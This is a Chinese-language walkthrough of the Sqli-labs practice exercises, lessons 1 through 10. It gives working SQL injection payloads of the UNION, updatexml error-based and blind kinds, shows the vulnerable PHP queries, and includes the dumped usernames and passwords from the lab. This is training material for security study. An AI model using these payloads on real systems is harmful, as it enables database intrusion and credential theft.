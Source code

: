 ### Sqli-labs



##### 1. less-1,single quotes - String

显示位置在2,3号

http://192.168.217.113:7766/Less-1/?id=1' union select 1,2,3 limit 1,1 --+

```sql
// 查询库名： 
(select group_concat(schema_name) from information_schema.schema)
// 查询表名： 
(select group_concat(table_name) from information_schema.tables where table_schema='security')
// 查询表内列名： 
(select group_concat(column_name) from information_schema.columns where table_name='users')
// 爆破所有数据: 
(select group_concat(username) from security.users) ,  (select group_concat(password) from security.users)
```





##### 2. Less-2, - integer

http://192.168.217.113:7766/Less-1/?id=1 union select 1,2,3 limit 1,1 --+

整型和字符型的区别  在于需不需要提前使用`'`进行截断

```php
// 字符串型
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
// 整型
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```



##### 3. Less-3,Single quotes with twist - String

http://192.168.217.113:7766/Less-1/?id=1') union select 1,2,3 limit 1,1 --+

上面的方式不能生效了，对比之后多了个`()`，因此需要补全括号，否则永远被括号括起来，最后结果还是逃不掉最后的limit

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```



##### 4. Less-4,Double Quotes - String

http://172.16.51.129:7766/Less-4/?id=1") union select 1,2,3 limit 1,1 --+

 使用`""`对查询内容进行拼接，并且放在了`()`中。

```php
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";

```



##### 5. Less-5,Single Quote - String

http://172.16.51.129:7766/Less-5/?id=1'

从输出可知（无回显），页面只会展示成功或失败的逻辑，但是输入`1'`会输出错误，则可以使用错误注入

```sql
// undatexml 存在返回长度为32，因此需要使用substr，一段一段去获取
// 查询库名
and (updatexml(1,concat(0x7e, substr((select group_concat(schema_name) from information_schema.schema),64,32 ),0x7e),1));
// 结果： information_schema,challenges,mysql,performance_schema,security
// 查询表名
and (updatexml(1,concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema="security") ,0x7e),1));
// 结果：emails,referers,uagents,users
// 查询列名
and (updatexml(1,concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name="users") ,0x7e),1));
// 结果： id,username,password
// 爆破数据
and (updatexml(1,concat(0x7e, substr((select group_concat(username) from security.users),1,32 ),0x7e),1));
/* 
结果： name： 
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4'
*/
and (updatexml(1,concat(0x7e, substr((select group_concat(password) from security.users),1,32 ),0x7e),1));
/*
结果： password：
Dumb,I-kill-you,p@ssword,crappyy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
*/
```



##### 6. Double Quotes -String

尝试加`'`,`"`，在使用双引号的时候，会有回显

http://172.16.104.130:7766/Less-6/?id=1"



##### 7. Dump Into outfield - String

没有回显，而且感觉会根据sql查询结果，如果查询失败，就页面显示失败不是调用`sql_error()`那种，成功就展示成功语句。应该只能使用布尔。

有点贱，用了两个`()`

```php
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";	
```

http://172.16.104.130:7766/Less-7/?id=1')) and 1=1 跟 1=2 ，会有正确或错误返回。

**ps：**别人答案是使用outfile写shell？





##### 8. Boolian Based - Single Quotes

这题只有成功会显示，失败就啥东西都没有，很恶心。

并且在你构造语句的时候，在处理完`'`之后，需要在语句结尾补齐`;`否则还是会语句有错。

之后的是就是布尔。

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";	
```





##### 9. Bind - Time Based - Singe Quote

无论成功，还是失败，返回的内容都是一样的，绝望。。。只能使用最蠢的时间。



##### 10. Blind - Time Based - Double Quote

